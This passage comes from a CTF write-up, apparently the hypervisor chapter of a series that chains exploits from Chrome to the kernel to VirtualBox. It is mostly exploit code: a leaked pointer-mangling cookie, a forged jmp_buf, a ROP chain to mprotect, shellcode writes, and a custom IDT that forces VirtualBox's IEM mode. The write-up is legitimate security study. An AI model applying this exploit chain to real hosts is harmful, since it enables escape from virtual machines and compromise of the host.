    uint64_t fn_cookie = arb_read64(tls_bases[0] + fn_cookie_off);

    #define mangle_ptr(ptr) (_rotl((ptr ^ fn_cookie), 0x11))

    printk(KERN_WARN "Preparing jmp_buf with cookie: 0x%llx\n", fn_cookie);

    uint64_t rop_buf[] = {
        shellcode_addr, // rdi
        pop_rsi_gadget_off + libc_base,
        0x1000, // rsi
        pop_rdx_gadget_off + libc_base,
        0x7,
        mprotect_libc_off + libc_base,
        shellcode_addr
    };

    struct __jmp_buf jumper = {};
    memset(&jumper, 0x42, sizeof(jumper));
    jumper.__rip = mangle_ptr(pop_rdi_gadget_off + libc_base);
    jumper.__rsp = mangle_ptr(fake_stack);
    jumper.__rbp = mangle_ptr(fake_stack);

    printk(KERN_WARN "Writing jmp_buf\n");
    arb_write(jmp_buf_addr, &jumper, sizeof(jumper));

    printk(KERN_WARN "Writing rop_buf\n");
    arb_write(fake_stack, rop_buf, sizeof(rop_buf));

    printk(KERN_WARN "Writing shellcode_pwn\n");
    arb_write(shellcode_addr, shellcode_pwn, sizeof(shellcode_pwn));

    ...
}
```

Finally, we turn `fIemExecutesAll` on and overwrite the pointer to `jmp_buf`:

```c
void pwn(void)
{
    ...

    vcpu_jmp_buf = vcpu_addr + 0x738;
    vcpu2_jmp_buf = vcpu2_addr + 0x738;

    uint64_t vm_addr = arb_read64(vcpu_addr + 0x4880);
    // overwrite fIemExecutesAll
    arb_write64(vm_addr + 0xb000, 1 | (1 << 8));

    // you will see later
    do_finalize();
    // overwrite jmp_buf pointer
    asm volatile (
        ".byte 0x0f, 0x27\n"
        "mov %%rcx, %%rbx\n"
        ".byte 0x0f, 0x27\n"
        "mov $0, (0)"
        :: "a" (jmp_buf_addr), "b" (addr_to_offset(vcpu_jmp_buf) >> 3), "c" (addr_to_offset(vcpu2_jmp_buf) >> 3) : "memory"
    );

    ...
}
```

It seems that this was still not enough and with some debugging we found out that it was still not switching to executing everything under IEM.
Somebody figured out, that executin a `ud2` instruction while under IEM would then cause the reschedule to happen and hence executing everything under IEM.
This is what `do_finalize` does:

```c
__attribute__((always_inline))
static inline uint64_t do_finalize(void)
{
    uint64_t idx = 0;
    uint64_t ret;
    gdtr_t curr_gdtr = {};
    uint64_t curr_gdtr_ptr = (uint64_t)&curr_gdtr;
    uint64_t fake_ptr = (uint64_t)&fake_gdtr;
    ret = finalize(idx, mmio_addr, curr_gdtr_ptr, fake_ptr);
    return ret;
}
```

And `finalize`:

```nasm
; rdi = idx, rsi = mmio, rdx = curr_gdtr, rcx = fake_gdtr
.global finalize
finalize:
push rbx
sgdt [rdx]
lgdt [rcx]
mov rbx, rdi
mov ss, [rsi]
ud2 ; will cause a fault to be raised and hence transition to always IEM
mov rbx, 0x18
mov ss, rbx
lgdt [rdx]
pop rbx
ret
```

Lastly, we install a custom IDT (which is similar to the GDT) to have a custom handler for when the `ud2` is executed:

```c
#include <asm/desc.h>

gdtr_t fake_idtr = {};
gdt_entry fake_idts[0x1000];

...

void pwn(void)
{
    ...

    gdtr_t lidt = {};
    asm volatile(
        "sidt %0"
        : "=m"(lidt) :: "memory"
    );

    size_t lit_size = lidt.limit + 1;
    memset(fake_idts, 0, sizeof(fake_idts));
    memcpy(fake_idts, lidt.base, lit_size);

    set_bringup_idt_handler((void*)fake_idts, 6, int50_handler);
    fake_idtr.base = fake_idts;
    fake_idtr.limit = lidt.limit;

    asm volatile(
        "lidt %0"
        :: "m"(fake_idtr) : "memory"
    );

    ...

}

__attribute__((naked))
void int50_handler(void)
{
    asm volatile (
        ".byte 0x0f, 0x27\n"
        "mov %%rcx, %%rbx\n"
        ".byte 0x0f, 0x27\n"
        "mov $0, (0)"
        :: "a" (jmp_buf_addr), "b" (addr_to_offset(vcpu_jmp_buf) >> 3), "c" (addr_to_offset(vcpu2_jmp_buf) >> 3) : "memory"
    );
}
```

After all of this, we finally get our shellcode execution without having to rely on an RWX page provided to us by VirtualBox :).

## Table of Contents

- [Prologue](./fourchain-prologue): Introduction
- [Chapter 1: Hole](./fourchain-hole): Using the "hole" to pwn the V8 heap and some delicious Swiss cheese.
- [Chapter 2: Sandbox](./fourchain-sandbox): Pwning the Chrome Sandbox using `Sandbox`.
- [Chapter 3: Kernel](./fourchain-kernel): Chaining the Cross-Cache Cred Change
- **[Chapter 4: Hypervisor](./fourchain-hv) (You are here)**
- [Chapter 5: One for All](./fourchain-fullchain): Uncheesing a Challenge and GUI Troubles
- [Epilogue](./fourchain-epilogue): Closing thoughts
